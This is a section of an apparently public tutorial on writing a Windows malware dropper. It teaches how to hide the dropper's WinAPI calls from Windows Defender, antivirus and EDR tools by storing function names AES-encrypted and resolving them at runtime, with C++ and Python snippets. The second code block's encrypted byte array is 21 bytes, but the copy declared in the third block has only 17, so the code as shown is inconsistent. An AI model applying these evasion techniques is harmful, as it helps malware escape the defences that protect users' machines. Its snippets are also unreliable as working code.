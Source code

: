 ## 2) Add AES paylod Encryption


One of the main problem with the current dropper is the utilization of well known WinAPI functions. 
The combination of `Find/Load/LockResource`, `VirtualAlloc`, `RtlMoveMemory`, `VirtualProtect`, and `CreateThread` has been in countless malware for many, many years. 
It is no wonder that Windows Defender, AV, and EDR solutions are not a big fan of these WIN-API call.

One way to get around this is using function call obfuscation. 
Function call obfuscation is a method that I learned from Sektor7's course, which is a great introductory course on custom tool creation. 
Although, I had to sink some time researching how to do function obfuscation in visual c++ (for visual studio).

So in order to accomplish this we will implement the following steps: 

1) Create a WinAPI function pointer struct which has the same parameters as the function to be obfuscated

2) Create a char array with the function's name AES encrypted

3) Using GetProcAddress and GetModuleHandleA, get the function pointer of the export DLL

4) Now, call the function pointer created in #1 instead of calling the actual function

Let's go through an example. Let's say we want to obfuscate the function WriteProcessMemory.

First, create a struct of WINAPI function pointer with the name pWriteProcessMemory.

```cpp
  BOOL (WINAPI * pWriteProcessMemory)(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

Second, create a char array with the function name WriteProcessMemory AES encrypted with a specific key. 
In this case, the key "yoyo" was used. We can load our python script in interacting mode as follow: python -i .\aesCrypt.py

```cpp
	c=aesenc("WriteProcessMemory\x00","yoyo")
	print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in c) + ' };')
	payload[] = { 0xac, 0x3c, 0xa9, 0x7f, 0x9, 0x25, 0xe2, 0x98, 0x6b, 0xa8, 0xa7, 0xab, 0xb5, 0xf, 0x87, 0x8d, 0xd8, 0x5b, 0x37, 0xf3, 0xa2};
```



Third, declare a char array with AES encrypted function name. 
Then, AES decrypt the function's name in runtime. Make sure to use the same key "yoyo".

```cpp
unsigned char sWriteProcessMemory[] = { 0xac, 0x3c, 0xa9, 0x7f, 0x9, 0x25, 0xe2, 0x98, 0x6b, 0xa8, 0xa7, 0xab, 0xb5, 0xf, 0x87, 0x8d, 0xd8};

```
